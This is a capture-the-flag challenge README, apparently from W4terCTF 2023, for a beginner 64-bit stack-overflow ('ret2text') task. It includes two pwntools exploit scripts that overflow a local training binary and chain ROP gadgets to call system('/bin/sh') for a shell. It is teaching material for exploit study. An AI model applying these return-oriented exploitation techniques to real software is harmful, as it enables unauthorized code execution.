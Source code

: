 # ret2text_64

- 作者：pn1fg
- 参考：W4terCTF 2023
- 难度：Baby
- 分类：Pwn
- 暴露端口：70

## 题目描述

64位栈溢出

## 题目解析

- 源码：[ret2text_64.c](build/ret2text_64.c)
- 考点：64位下ROP - ret2text

[exp.py](writeup/exp.py) :

```python
from pwn import *

context.arch = 'amd64'
context.log_level = "debug"

io = process("./ret2text_64")
elf = ELF("./ret2text_64")

pop_rdi_ret = 0x0040123d
bin_sh = 0x00404050
ret = 0x0040101a

io.sendlineafter(b"age?\n", b"1000")

payload = flat([
    cyclic(0x40 + 8),
    pop_rdi_ret,
    bin_sh,
    ret,
    elf.sym["system"]
])
io.sendlineafter(b"overflow!\n", payload)

io.interactive()
```

[exp2.py](writeup/exp2.py) :

```python
from pwn import *

context.arch = "amd64"
context.log_level = "debug"

io = process("./ret2text_64")
elf = ELF("./ret2text_64")
rop = ROP(elf)

io.sendlineafter(b"age?\n", b"1000")

padding = cyclic(0x40 + 8)
bin_sh = next(elf.search(b"/bin/sh"))
ret = rop.find_gadget(["ret"])

rop.raw(padding)
rop.raw(ret)
rop.call(elf.sym["system"], [bin_sh])
payload = rop.chain()

io.sendlineafter(b"overflow!\n", payload)

io.interactive()
```